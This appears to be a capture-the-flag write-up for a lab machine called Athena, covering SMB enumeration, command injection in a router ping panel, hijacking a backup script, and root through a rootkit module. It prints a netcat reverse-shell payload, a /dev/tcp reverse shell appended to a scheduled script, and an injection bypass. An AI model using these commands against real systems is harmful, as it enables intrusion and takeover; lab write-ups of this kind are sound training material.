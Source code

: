 # Athena

![53d3c28c1af197142685ceb238d5ce3c](https://github.com/7h30ry/Writeups/assets/51336409/fc9c112a-73f2-41f0-b002-3661fc7f41de)

## Port Sacn

![Screenshot from 2023-09-19 22-04-24](https://github.com/7h30ry/Writeups/assets/51336409/39514405-1cdc-4a53-bea7-3d1fcca9e2a2)

Seeing that there is port 80, i visited the web page

![Screenshot from 2023-09-19 22-06-23](https://github.com/7h30ry/Writeups/assets/51336409/8eec765a-3729-4c52-a694-6a1b11d6c0b4)

I searched through but not, so i checked the smb port
```
smbclient -L //ip//
```
![Screenshot from 2023-09-19 22-09-12](https://github.com/7h30ry/Writeups/assets/51336409/09c18c1b-f29f-402d-b665-882fefcad1dd)

```
smbclient //ip/public
```
![Screenshot from 2023-09-19 22-10-47](https://github.com/7h30ry/Writeups/assets/51336409/5c8f6bfc-36e2-4e2b-96e3-9ec88f4bf81c)

reading the msg_for_administrator.txt file

![Screenshot from 2023-09-19 22-12-41](https://github.com/7h30ry/Writeups/assets/51336409/e92a50ab-ec09-4c84-bf25-8be9b3ff8d52)

## Command Injection

So i visited the /myrouterpanel directory on the web

![Screenshot from 2023-09-19 22-14-29](https://github.com/7h30ry/Writeups/assets/51336409/68f6462c-d607-4a43-b6ae-23151c1d7b40)

Seeing this what came to my mind was Command injection

I firstly checked if the ping function was working

![Screenshot from 2023-09-19 22-16-13](https://github.com/7h30ry/Writeups/assets/51336409/997e0a70-a86d-447c-a861-872530e1ed5d)

Seeing that the ping is working i tried ```127.0.0.1;ls``` ```127.0.0.1| ls``  payload but it did not 

![Screenshot from 2023-09-19 22-18-25](https://github.com/7h30ry/Writeups/assets/51336409/0cf2028f-28e4-45de-9c1d-7dea43eee70e)

After some tries i was able to bypas it with
```
$(command)
```
so in order to get an RCE i used

```
$(nc <lhost> <lport> -e /bin/bash)
```

![Screenshot from 2023-09-19 22-22-37](https://github.com/7h30ry/Writeups/assets/51336409/9967ed89-3183-483b-ac03-a39523de82b3)

I tried accessing the /home/athena directory i keep getting Permission denied

## Privilege escalation to athena

```
find / -user 'athena' 2>/dev/null
```

![Screenshot from 2023-09-19 22-26-29](https://github.com/7h30ry/Writeups/assets/51336409/970f2897-c9e9-47b1-98ad-9a3972b727ba)

we se a /usr/share/backup directory which has a backup.sh file in it

![Screenshot from 2023-09-19 22-28-12](https://github.com/7h30ry/Writeups/assets/51336409/66c7cc7f-e418-4dc4-801f-63f1ac472904)

Guessing there is process runing the backup.sh file i decided to add a reverse shell inside the backup.sh file

```
echo 'bash -i >& /dev/tcp/<lhost>/4444 0>&1' >> backup.sh
```
start a listener on 4444

After a while i got a reverse shell as athena

![Screenshot from 2023-09-19 22-28-12](https://github.com/7h30ry/Writeups/assets/51336409/9b6a1bec-64d3-4b4a-bbb3-5d6804f27577)


## Root

Trying sudo -l

![Screenshot from 2023-09-19 22-34-14](https://github.com/7h30ry/Writeups/assets/51336409/dd87a0a5-3129-4aea-b358-3db14e2b2ca8)

we see that we can run 
```(root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko```

## USE Ghidra: to reverse the venom.ko file

after some reversing, we notice the ```hacked_kill``` function :

![ghidra](https://github.com/7h30ry/Writeups/assets/51336409/15e74320-f334-41f6-a6e0-88ecebf345b2)

we see that in order for give_root() to get called, we need to send a signal 57 instead of 64 as mentioned in the github repository, so this rootkit was slightly modified, let's try again with signal 57 :

the give_root function may work like this kill -57 <pid>, later on the id command reveals that you have root access.

so i started a process with 
```sleep 10 &```

got the process id and typed
```kill -57 -pid```

![Screenshot from 2023-09-19 22-44-19](https://github.com/7h30ry/Writeups/assets/51336409/395a52fb-bc72-4ec9-9ea5-e1d5334e4e75)

Now we got Root !!! 












